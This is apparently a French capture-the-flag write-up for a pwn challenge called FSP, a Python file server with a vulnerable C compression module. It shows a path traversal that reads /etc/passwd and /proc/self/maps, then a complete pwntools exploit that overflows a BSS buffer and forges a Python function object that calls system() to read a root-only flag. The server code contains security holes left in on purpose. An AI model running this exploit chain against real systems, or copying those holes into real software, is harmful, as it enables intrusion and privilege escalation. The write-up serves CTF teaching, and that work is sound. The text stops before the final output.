

# Writeup - FSP

**Category**: PWN  \
**Author**: [Nosiume](https://github.com/Nosiume) \
**Difficulty**: Difficile \
**Challenge Description**: \


Pour impressioner mes profs sur un rendu de projet, j'ai décidé de créer un concurrent à FTP !!
FSP (File Sharing Protocol) est un protocole qui met en avant les valeurs du partage et de la bienveillance :)
Un de mes amis qui travail en cyber m'a même dit en blaguant que le protocole partage mes données privées aussi !
Je me demande bien ce qu'il pourrait vouloir dire :p

**Artifact Files**: \
[dist.zip](../files/dist.zip)

## Concept du challenge

Ce challenge est donc une sorte de protocol d'échange de fichier. En nous connectant à la remote on a une bannière qui s'affiche : 

```
FSP v1.0
```

Mais nous ne connaissons pas encore les commandes !

Une chose qui peut parraître surprenante dans ce challenge est que le protocole en lui même est implémenté dans un script python ! (Plutôt peu commun sur du pwn)

```py
#!/usr/bin/env python3

import cool_compress as cc
import socket
import signal
import os
import sys
from abc import ABC, abstractmethod
import subprocess
import base64
from pathlib import Path

PORT = 1337
ROOT_DIR = "/opt/fsp/"

class FSPCommand(ABC):
    def __init__(self, mnemonic: bytes, nargs: int):
        self.mnemonic = mnemonic
        self.nargs = nargs

    @abstractmethod
    def execute(self, client: socket.socket, args: list[bytes]):
        pass

class NOOPCommand(FSPCommand):
    def __init__(self):
        super().__init__(b'NOOP', 0)

    def execute(self, client: socket.socket, args: list[bytes]):
        client.send(b'200 OK\n')

class QUITCommand(FSPCommand):
    def __init__(self):
        super().__init__(b'QUIT', 0)

    def execute(self, client: socket.socket, args: list[bytes]):
        client.send(b'CLOSING\n')
        client.close()

class LSTCommand(FSPCommand):
    def __init__(self):
        super().__init__(b'LST', 0)

    def execute(self, client:socket.socket, args: list[bytes]):
        process = subprocess.Popen(['ls', '-la', ROOT_DIR], stdout=subprocess.PIPE)
        out = process.stdout.read()
        client.send(out)

class RETRCommand(FSPCommand):
    def __init__(self):
        super().__init__(b'RETR', 1)

    def execute(self, client:socket.socket, args: list[bytes]):
        try:
            path = Path(ROOT_DIR + args[0].decode("utf-8"))
        except UnicodeDecodeError:
            client.send(b'501 Internal Server Error\n')
            return

        real_path = str(path.resolve())
        if not os.path.exists(real_path):
            client.send(b'404 Not Found\n')
            return

        if not real_path.startswith(ROOT_DIR):
            client.send(b'404 Not Found\n')

        client.send(b'200 OK\n')
        with open(real_path, "rb") as f:
            client.send(base64.b64encode(f.read()) + b'\n')

class PUTCommand(FSPCommand):
    def __init__(self):
        super().__init__(b'PUT', 2)

    def execute(self, client: socket.socket, args: list[bytes]):
        try:
            path = Path(ROOT_DIR + args[0].decode("utf-8"))
        except UnicodeDecodeError:
            client.send(b'501 Internal Server Error\n')
            return

        try:
            data = base64.b64decode(args[1])
        except:
            client.send(b'501 Internal Server Error\n')
            return

        real_path = str(path.resolve())
        if not real_path.startswith(ROOT_DIR):
            client.send(b'404 Not Found\n')
            return

        with open(real_path, "wb") as f:
            f.write(data)

        client.send(b'200 OK\n')

class CMPRCommand(FSPCommand):
    def __init__(self):
        super().__init__(b'CMPR', 1)

    def execute(self, client: socket.socket, args: list[bytes]):
        try:
            path = Path(ROOT_DIR + args[0].decode("utf-8"))
        except UnicodeDecodeError:
            client.send(b'501 Internal Server Error\n')
            return

        real_path = str(path.resolve())
        if not real_path.startswith(ROOT_DIR):
            client.send(b'404 Not Found\n')
            return

        with open(real_path, "rb") as f:
            res = cc.compress(f.read())

        basename = os.path.basename(real_path)
        out_path = os.path.join(ROOT_DIR, basename + ".cc")
        with open(out_path, "wb") as f:
            f.write(res)

        client.send(b'200 OK\n')

class DCMPRCommand(FSPCommand):
    def __init__(self):
        super().__init__(b'DCMPR', 1)

    def execute(self, client: socket.socket, args: list[bytes]):
        try:
            path = Path(ROOT_DIR + args[0].decode("utf-8"))
        except UnicodeDecodeError:
            client.send(b'501 Internal Server Error\n')
            return

        real_path = str(path.resolve())
        if not real_path.startswith(ROOT_DIR):
            client.send(b'404 Not Found\n')
            return

        if not real_path.endswith(".cc"):
            client.send(b'402 Bad Extension\n')
            return

        with open(real_path, "rb") as f:
            res = cc.decompress(f.read())

        basename = os.path.basename(real_path)[:-3]
        out_path = os.path.join(ROOT_DIR, basename)
        with open(out_path, "wb") as f:
            f.write(res)

        client.send(b'200 OK\n')

server_commands : list[FSPCommand] = [
    NOOPCommand(),
    QUITCommand(),
    LSTCommand(),
    RETRCommand(),
    PUTCommand(),
    CMPRCommand(),
    DCMPRCommand()
]


def sigint_handler(sig, frame):
    print("Quitting...")
    sys.exit(0)

def error_callback(msg):
    print("[ERR] Got an error in compression module :", msg)

def get_server_socket(port):
    sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    sock.bind(("0.0.0.0", port))
    sock.setsockopt(socket.SOL_SOCKET, socket.SO_REUSEADDR, 1)
    sock.listen(5)
    return sock

def parse_command(command: bytes):
    parts = command.split(b' ')
    for cmd_obj in server_commands:
        if parts[0] == cmd_obj.mnemonic and len(parts) == cmd_obj.nargs + 1:
            return cmd_obj, parts[1:]
    return (None, None)

def connection_handler(client, addr):
    print(f"Connection received from {addr[0]}:{addr[1]}")
    client.settimeout(1.0)

    buffer = b''
    running = True
    while running:
        if client.fileno() == -1:
            break

        try:
            chunk = client.recv(4096)
        except socket.timeout:
            continue
        except OSError:
            print("Something went wrong while handling client !")
            break

        if not chunk:
            break

        buffer += chunk

        while b"\n" in buffer and running:
            command, buffer = buffer.split(b"\n", 1)

            parsed_cmd, args = parse_command(command)
            if not parsed_cmd:
                try:
                    client.sendall(b"404 UNKNOWN COMMAND\n")
                except OSError:
                    running = False
                except Exception:
                    # just in case
                    continue
                finally:
                    continue

            try:
                parsed_cmd.execute(client, args)
            except OSError:
                print("Something went wrong while executing command !")
                running = False

            if client.fileno() == -1:
                running = False

    client.close()

def main():
    signal.signal(signal.SIGINT, sigint_handler)
    server = get_server_socket(PORT) 
    cc.set_err_callback(error_callback)

    while True:
        client, addr = server.accept()
        client.send(b'FSP v1.0\n')
        connection_handler(client, addr)

if __name__ == "__main__":
    main()
```

En regardant ce script on voit qu'il y a un total de 7 commandes : 
- NOOP : ne fait rien
- QUIT : ferme la connexion
- LST  : liste les fichiers disponibles
- RETR : récupère le contenu d'un fichier
- PUT  : enregistre / créer un fichier
- CMPR : compresse un fichier
- DCMPR: décompresse un fichier

## Bugs

## Bug 1 : Path Traversal

Le premier bug ne touche même pas au module C ! Il s'âgit bien de la vérification du chemin calculé dans la commande `RETR`.

```py
class RETRCommand(FSPCommand):
    def __init__(self):
        super().__init__(b'RETR', 1)

    def execute(self, client:socket.socket, args: list[bytes]):
        try:
            path = Path(ROOT_DIR + args[0].decode("utf-8"))
        except UnicodeDecodeError:
            client.send(b'501 Internal Server Error\n')
            return

        real_path = str(path.resolve())
        if not os.path.exists(real_path):
            client.send(b'404 Not Found')
            return

        if not real_path.startswith(ROOT_DIR):
            client.send(b'404 Not Found')

        client.send(b'200 OK\n')
        with open(real_path, "rb") as f:
            client.send(base64.b64encode(f.read()) + b'\n')
```

On peut voir que le chemin d'accès est récupéré avec la librairie `pathlib` pour connecter le chemin racine du chemin demandé par l'utilisateur.

Le programme vérifie bien que le fichier existe et `return` si ce n'est pas le cas. Il fait de même avec la vérification d'inclusion du chemin racine pour éviter les attaques par **Path Traversal** mais fait un oublie critique en ommetant le retour de la fonction avec `return`. Autrement dit, on a bien le message `404 Not Found` mais le programme continue et nous envoie le fichier demandé.

Il est très simple de tester ce bug : 

```
FSP v1.0
RETR ../../etc/passwd
404 Not Found200 OK
cm9vdDp4OjA6MDpyb290Oi9yb290Oi9iaW4vYmFzaApkYWVtb246eDoxOjE6ZGFlbW9uOi91c3Ivc2JpbjovdXNyL3NiaW4vbm9sb2dpbgpiaW46eDoyOjI6YmluOi9iaW46L3Vzci9zYmluL25vbG9naW4Kc3lzOng6MzozOnN5czovZGV2Oi91c3Ivc2Jpbi9ub2xvZ2luCnN5bmM6eDo0OjY1NTM0OnN5bmM6L2JpbjovYmluL3N5bmMKZ2FtZXM6eDo1OjYwOmdhbWVzOi91c3IvZ2FtZXM6L3Vzci9zYmluL25vbG9naW4KbWFuOng6NjoxMjptYW46L3Zhci9jYWNoZS9tYW46L3Vzci9zYmluL25vbG9naW4KbHA6eDo3Ojc6bHA6L3Zhci9zcG9vbC9scGQ6L3Vzci9zYmluL25vbG9naW4KbWFpbDp4Ojg6ODptYWlsOi92YXIvbWFpbDovdXNyL3NiaW4vbm9sb2dpbgpuZXdzOng6OTo5Om5ld3M6L3Zhci9zcG9vbC9uZXdzOi91c3Ivc2Jpbi9ub2xvZ2luCnV1Y3A6eDoxMDoxMDp1dWNwOi92YXIvc3Bvb2wvdXVjcDovdXNyL3NiaW4vbm9sb2dpbgpwcm94eTp4OjEzOjEzOnByb3h5Oi9iaW46L3Vzci9zYmluL25vbG9naW4Kd3d3LWRhdGE6eDozMzozMzp3d3ctZGF0YTovdmFyL3d3dzovdXNyL3NiaW4vbm9sb2dpbgpiYWNrdXA6eDozNDozNDpiYWNrdXA6L3Zhci9iYWNrdXBzOi91c3Ivc2Jpbi9ub2xvZ2luCmxpc3Q6eDozODozODpNYWlsaW5nIExpc3QgTWFuYWdlcjovdmFyL2xpc3Q6L3Vzci9zYmluL25vbG9naW4KaXJjOng6Mzk6Mzk6aXJjZDovcnVuL2lyY2Q6L3Vzci9zYmluL25vbG9naW4KX2FwdDp4OjQyOjY1NTM0Ojovbm9uZXhpc3RlbnQ6L3Vzci9zYmluL25vbG9naW4Kbm9ib2R5Ong6NjU1MzQ6NjU1MzQ6bm9ib2R5Oi9ub25leGlzdGVudDovdXNyL3NiaW4vbm9sb2dpbgpjdGY6eDoxMDAwOjEwMDA6Oi9ob21lL2N0ZjovYmluL2Jhc2gK
```

Et en décodant : 

```
echo -ne 'cm9vdDp4OjA6MDpyb290Oi9yb290Oi9iaW4vYmFzaApkYWVtb246eDoxOjE6ZGFlbW9uOi91c3Ivc2JpbjovdXNyL3NiaW4vbm9sb2dpbgpiaW46eDoyOjI6YmluOi9iaW46L3Vzci9zYmluL25vbG9naW4Kc3lzOng6MzozOnN5czovZGV2Oi91c3Ivc2Jpbi9ub2xvZ2luCnN5bmM6eDo0OjY1NTM0OnN5bmM6L2JpbjovYmluL3N5bmMKZ2FtZXM6eDo1OjYwOmdhbWVzOi91c3IvZ2FtZXM6L3Vzci9zYmluL25vbG9naW4KbWFuOng6NjoxMjptYW46L3Zhci9jYWNoZS9tYW46L3Vzci9zYmluL25vbG9naW4KbHA6eDo3Ojc6bHA6L3Zhci9zcG9vbC9scGQ6L3Vzci9zYmluL25vbG9naW4KbWFpbDp4Ojg6ODptYWlsOi92YXIvbWFpbDovdXNyL3NiaW4vbm9sb2dpbgpuZXdzOng6OTo5Om5ld3M6L3Zhci9zcG9vbC9uZXdzOi91c3Ivc2Jpbi9ub2xvZ2luCnV1Y3A6eDoxMDoxMDp1dWNwOi92YXIvc3Bvb2wvdXVjcDovdXNyL3NiaW4vbm9sb2dpbgpwcm94eTp4OjEzOjEzOnByb3h5Oi9iaW46L3Vzci9zYmluL25vbG9naW4Kd3d3LWRhdGE6eDozMzozMzp3d3ctZGF0YTovdmFyL3d3dzovdXNyL3NiaW4vbm9sb2dpbgpiYWNrdXA6eDozNDozNDpiYWNrdXA6L3Zhci9iYWNrdXBzOi91c3Ivc2Jpbi9ub2xvZ2luCmxpc3Q6eDozODozODpNYWlsaW5nIExpc3QgTWFuYWdlcjovdmFyL2xpc3Q6L3Vzci9zYmluL25vbG9naW4KaXJjOng6Mzk6Mzk6aXJjZDovcnVuL2lyY2Q6L3Vzci9zYmluL25vbG9naW4KX2FwdDp4OjQyOjY1NTM0Ojovbm9uZXhpc3RlbnQ6L3Vzci9zYmluL25vbG9naW4Kbm9ib2R5Ong6NjU1MzQ6NjU1MzQ6bm9ib2R5Oi9ub25leGlzdGVudDovdXNyL3NiaW4vbm9sb2dpbgpjdGY6eDoxMDAwOjEwMDA6Oi9ob21lL2N0ZjovYmluL2Jhc2gK' | base64 -d | head
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
```

### Bug 2 : Overflow dans l'algorithme de compression/décompression

Rentrons maintenant dans le vif du sujet !

Ce challenge implémente donc un module de compression, codé en C, que l'on peut appeler à travers le script python [chall.py](../infra/chall.py). 

En tant que joueur, les sources ne vous sont pas donner mais le code source est très simple et facile à reverse puisque les fonctions ont des noms assez évidents (compress / decompress). Pour la simplicité de ce writeup, je vais directement cité les sources de mon code C du module.

Commençons par la fonction de compression : 
```c
static PyObject* compress(PyObject *self, PyObject *args) {
    Py_buffer buffer;
    if(!PyArg_ParseTuple(args, "y*", &buffer)) {
        return NULL;
    }

    
    if(buffer.len <= 0) {
        if (err_callback) {
            PyObject* arglist = Py_BuildValue("(s)", "Invalid length during compression");
            PyObject* result = PyObject_CallObject(err_callback, arglist);
            Py_XDECREF(arglist);
        }
        return NULL;
    }
    const char* data = buffer.buf;

    size_t ptr = 0;
    uint8_t prev = data[0];
    uint8_t count = 1;
    for(size_t i = 1 ; i < buffer.len ; i++) {
        if (data[i] == prev && count < 0xff) {
            count++;
        } else {
            calculation_buf[ptr++] = count;
            calculation_buf[ptr++] = prev;
            prev = data[i];
            count = 1;
        }
    }
    calculation_buf[ptr++] = count;
    calculation_buf[ptr++] = prev;

    PyBuffer_Release(&buffer);
    return PyBytes_FromStringAndSize((char*)calculation_buf, ptr);
}
```

Elle prend en argument un objet de type `bytes` et on récupère sont contenu avec un `Py_buffer` (en gros une interface vers un char* avec une longueur attribuée).

Si la longueur est inférieure ou égale à 0, on appelle une fonction python de callback `err_callback`. Nous reviendrons sur cela plus tard.

L'algorithme, quant à lui, est très simple. En bref, pour chaque caractère donné, on écrit le nombre de répétition consécutives de ce caractère juste avant. De cette manière, "AAAA" devient "\x04A". Cet algorithme est incroyablement mauvais puisque alterner entre `A` et `B` double en réalité le nombre de caractère résultant ! Exemple : "AB" => "\x01A\x01B".

Maintenant, vous vous en doutez, la fonction decompress fait tout simplement l'opération inverse : 

```c
static PyObject* decompress(PyObject *self, PyObject *args) {
    Py_buffer buffer;
    if(!PyArg_ParseTuple(args, "y*", &buffer)) {
        return NULL;
    }

    if(buffer.len <= 1 || buffer.len % 2 != 0) {
        if (err_callback) {
            PyObject* arglist = Py_BuildValue("(s)", "Invalid length during decompression");
            PyObject* result = PyObject_CallObject(err_callback, arglist);
            Py_XDECREF(arglist);
        }
        return NULL;
    }

    const char* data = buffer.buf;

    size_t ptr = 0;
    for(size_t i = 0 ; i < buffer.len ; i+=2) {
        uint8_t count = data[i];
        char c = data[i+1];
        for(size_t j = 0 ; j < count ; j++) {
            calculation_buf[ptr++] = c;
        }
    }

    PyBuffer_Release(&buffer);
    return PyBytes_FromStringAndSize((char*)calculation_buf, ptr);
}
```

Maintenant, je tiens à attirer votre attention sur un élément en particulier. Le buffer `calculation_buf` est utilisé dans les deux fonctions pour effectuer les calculs de compression durant l'exécution des deux fonctions.

Celui-ci n'est pas déclaré dans les fonctions ! Il s'âgit bien d'un buffer global du binaire se trouvant dans la section `.bss`. 

```c
// Note : uint8_t est un unisgned char
uint8_t calculation_buf[8192];
```

On voit bien ici que `calculation_buf` est un buffer de taille **8192 octets**. En revanche, dans les deux fonctions, la taille n'est pas mentionnée une seule fois. Pour cause, elle est simplement ignorée.

Quelqu'un qui décompresse un fichier contenant en boucle `\xffA` un très grand nombre de fois va donc absolument écraser toutes les données se trouvant après ce buffer ! *(Il est aussi possible de faire un overflow depuis la compression en alternant entre `ABABABABAB` rapidement, les deux sont viables !)*

## Exploitation du BSS overflow 

Vous vous souvenez peut-être que j'ai mentionné le callback `err_callback` plus tôt ! Et bien ce n'est pas du tout un hasard.
Ce callback est donc un type `PyObject*` qui se trouve **JUSTE APRES** `err_callback` dans la mémoire !

Vous l'aurez compris, on peut écraser ce pointeur avec une adresse de mémoire de notre choix ! 

En utilisant notre la path traversal mentionnée précédement, on peut obtenir les mappings de mémoire en lisant `/proc/self/maps` ce qui nous donne les mappings du binaire `/usr/bin/python3` puisque ce challenge est exécuté par l'interpreter python.

Avec ça, on peut facilement calculé l'adresse de `calculation_buf` ! En exécutant un overflow dans `err_callback`, on peut donc faire pointer ce dit callback vers `calculation_buf`. Un buffer que nous contrôlons et où nous pourrons fabriquer un faux `PyObject` !

Le but étant de fabriquer un `PyObject` callable (cet à dire une fonction python) qui redirige vers une fonction connue en C (par exemple `system` de la libc) et nous permetterait donc d'exécuter des commandes arbitraires sur la machine !

## Implémentation de l'exploit

On peut obtenir un leak d'adresse de la librairie `cool_compress.so` et de `libc.so.6` à partir du leak de `/proc/self/maps` : 

```py
#!/usr/bin/env python3

from pwn import *
import base64
import dis

context.log_level = 'error'
context.binary = elf = ELF('/usr/bin/python3')
context.terminal = ['tmux', 'splitw', '-h']
libc = ELF('./libc.so.6') if args.REMOTE else elf.libc

HOST = "127.0.0.1"
PORT = 1337

gs = """
continue
"""
if not args.REMOTE:
    server = gdb.debug([elf.path, '../infra/chall.py'], gdbscript=gs, cwd='../infra') if args.GDB else process([elf.path, '../infra/chall.py'], cwd='../infra')

def get_conn():
    if args.REMOTE:
        return remote(HOST, PORT)
    else:
        return remote("127.0.0.1", 1337)

context.log_level = 'info'

# wait for server to wake
if args.GDB:
    input("enter when gdb is ready")
else:
    sleep(0.1)

io = get_conn()

io.sendline(b'RETR ../../../../proc/self/maps')
io.recvuntil(b'OK\n')

# ===== EXTRACT LEAKS FROM PATH TRAVERSAL =====
data = base64.b64decode(io.recvline())
grab_next = False
leak_lib = 0
for line in data.split(b'\n'):
    if libc.address == 0 and b'libc' in line:
        libc.address = int(line[:line.index(b'-')], 16)

    if leak_lib == 0 and b'cool_compress.so' in line:
        leak_lib = int(line[:line.index(b'-')], 16) 

# =============================================

info("compress lib @ " + hex(leak_lib))
info("libc @ " + hex(libc.address))
```

Ce qui nous donne la sortie suivante : 

```
[*] compress lib @ 0x7fcfa999b000
[*] libc @ 0x7fcfa9c66000
```

On peut donc facilement calculer l'adresse de `calculation_buf` et utiliser la fonction de décompression pour notre overflow :

```py
# On peut calculer la position de l'array utilisée pour les calculs où notre overflow apparaît à partir du leak
ptr_arr = leak_lib + 0x41a0

# On va overflow exactement le pointeur err_callback pour le rediriger vers le début de notre buffer pour créer
# une fausse structure type PyObject

payload = b"\xffA"*32 + b'\x20B'
for b in pack(ptr_arr):
    payload += b'\x01' + b.to_bytes()
payload = base64.b64encode(payload)

io.sendline(b'PUT payload.cc ' + payload)
io.sendline(b'DCMPR payload.cc')

# A partir de maintenant, err_callback a été écrasé par l'addresse de notre buffer
# Il suffit donc de créer une structure d'objet python valide qui correspond à une fonction pour exécuter le bytecode
```

La structure `PyObject` est est définie [ici](https://github.com/python/cpython/blob/3.13/Include/object.h#L163) : 

En prenant soin de simplifier les macros, on a pour la majorité des cas : 
```c
struct _object {
    Py_ssize_t ob_refcnt;  // part of stable ABI; do not change
    PyTypeObject *ob_type;  // part of stable ABI; do not change
};
```

Quant à la définition du type `PyFunctionObject` qui défini un objet de type fonction défini [ici](https://github.com/python/cpython/blob/3.13/Include/cpython/funcobject.h#L36), On a (toujours en prenant soin de mettre le résultat des macros):

```c
typedef struct {
    //PyObject_HEAD macro expansion : PyObject ob_base
    Py_ssize_t ob_refcnt;
    PyTypeObject *ob_type;

    PyObject *func_globals;
    PyObject *func_builtins;
    PyObject *func_name;
    PyObject *func_qualname;
    PyObject *func_code;        /* A code object, the __code__ attribute */
    PyObject *func_defaults;    /* NULL or a tuple */
    PyObject *func_kwdefaults;  /* NULL or a dict */
    PyObject *func_closure;     /* NULL or a tuple of cell objects */

    PyObject *func_doc;         /* The __doc__ attribute, can be anything */
    PyObject *func_dict;        /* The __dict__ attribute, a dict or NULL */
    PyObject *func_weakreflist; /* List of weak references */
    PyObject *func_module;      /* The __module__ attribute, can be anything */
    PyObject *func_annotations; /* Annotations, a dict or NULL */
    PyObject *func_typeparams;  /* Tuple of active type variables or NULL */
    vectorcallfunc vectorcall;
    /* Version number for use by specializer.
     * Can set to non-zero when we want to specialize.
     * Will be set to zero if any of these change:
     *     defaults
     *     kwdefaults (only if the object changes, not the contents of the dict)
     *     code
     *     annotations
     *     vectorcall function pointer */
    uint32_t func_version;

    /* Invariant:
     *     func_closure contains the bindings for func_code->co_freevars, so
     *     PyTuple_Size(func_closure) == PyCode_GetNumFree(func_code)
     *     (func_closure may be NULL if PyCode_GetNumFree(func_code) == 0).
     */
} PyFunctionObject;
```

Une particularité du binaire `/usr/bin/python3` utilisé pour interpréter notre challenge (voir [run.sh](../infra/run.sh)) est qu'il a PIE désactivé ! Très honnêtement je ne suis pas très sûr de pourquoi c'est le cas mais c'est bien pratique pour nous puisque nous pouvons récupérer le binaire python3 de la remote et extraire les adresses dont nous avons besoin : 
- Pointeur vers PyFunction_Type
- Pointeur vers PyNone
- D'autres valeures nécéssaires au bon fonctionnement de notre exploit comme 0xa484f8 pour la **func_weakreflist** qui apparaît dans d'autres objets fonction

Tout cela est très intimident mais, en réalité, la majorité des fields de `PyFunctionObject` peuvent être mis à 0. Pour mon exploit, cette structure a suffit : 

```py
PyNone = 0xa074f0  if args.REMOTE else 0xa15510
PyFunction_Type = 0x9fce00 if args.REMOTE else 0xa0ae20
vectorcall = libc.sym["system"]

payload = flat({
    # Partie 1 : Fake PyFunctionObject
    # On créer un objet valide qui trigger un vectorcall et redirige vers une instance de 
    # PyCodeObject définie plus loins dans la mémoire (ptr_arr + 0x100) dans le but d'exécuter un bytecode
    # python custom
    0: [
        b'./fl*>w\x00', PyFunction_Type, # function type
        0, 0,
        0, 0, 0,
        0, 0, 0, # stay null
        PyNone,
        0, 0, # stay null
        0xa484f8 if args.REMOTE else 0xa56658, 
        0, 0, # stay null
        vectorcall, # null vectorcall to avoid using vectorcall !
        p32(0x321), p32(0)
    ], 
}, filler=b'\x00')
```

Notez que je change mes adresses en fonction de si on éxécute sur la remote et mon pc local. Ces adresses seront sans doute différentes pour votre poste puisqu'il s'âgit d'adresses propre à mon build python personnel. Cependant, les adresses de la remote restent fixes.

Les fonctions python utilisent un système de **vectorcall** qui optimise l'exécution de fonctions python en faisant un mapping qui exécute directement une fonction C dans le backend. Il est possible, en faisant des objets bien plus complexes, de ne pas utiliser les vectorcalls et d'exécuter du bytecode python !

Cependant, pour la simplicité, nous allons exploiter le système de **vectorcall** puisque nous pouvons simplement sauter sur la fonction `system` de la libc.
Les appels de vectorcall passent en premier argument un pointeur vers l'objet effectuant l'appel (autrement dit notre `PyFunctionObject` fabriqué). C'est pour cela que j'ai manipulé le field `ob_refcnt` comme un string avec la commande `./fl*>w` qui va donc enrergistrer le compteur de reférence de l'objet à un très grand nombre (ce qui évite que le garbage collector python fasse des méchancetés à notre exploit) et surtout qui fait un appel valide `system("./fl*>w")`.

Le binaire SETUID `./flag` permet de lire le fichier flag avec les permissions **root** qui ne sont pas donnés à l'utilisateur exécutant le service python. Sa sortie est enregistrée dans `/home/ctf/app/w` qui est lisible par l'utilisateur courant !

### Trigger le callback

Pour trigger l'appel au callback, il nous suffira de rentrer dans une condition de décompression invalide. Par exemple, dans la fonction `decompress`, on a ce boût de code : 

```c
if(buffer.len <= 1 || buffer.len % 2 != 0) {
    if (err_callback) {
        PyObject* arglist = Py_BuildValue("(s)", "Invalid length during decompression");
        PyObject* result = PyObject_CallObject(err_callback, arglist);
        Py_XDECREF(arglist);
    }
    return NULL;
}
```

Donc, si on tente de décompresser un fichier de taille 1 octets, on pourra déclencher un appel à notre callback modifié.

En mettant tout ça dans un exploit, on obtient : 

```py
# On doit compresser notre payload pour que decompress mette tout correctement dans calculation_buf
def compress(data: bytes):
    res = b""
    prev = data[0]
    count = 1
    for i in range(1, len(data)):
        if prev == data[i] and count < 255:
            count += 1
        else:
            res += count.to_bytes()
            res += prev.to_bytes()
            count = 1
            prev = data[i]

    res += count.to_bytes()
    res += prev.to_bytes()
    return res


payload = base64.b64encode(compress(payload))

io.sendline(b'PUT test.cc ' + payload)
sleep(0.1)
io.sendline(b'DCMPR test.cc')


io.sendline(b'PUT trigger.cc YQ==')
sleep(0.1)
io.sendline(b'DCMPR trigger.cc')
io.close()

# we need to reconnect because the call to system will have triggered a crash

info("waiting for command to execute...")
sleep(1)

io = get_conn()
io.recvline()
io.sendline(b'RETR ../../../../../home/ctf/app/w')
io.recvline()
io.recvline()

flag = base64.b64decode(io.recvline().strip()).decode()
success(flag)

io.sendline(b'QUIT')
io.close()
```

En exécutant ce script, on obtient la sortie suivante : 

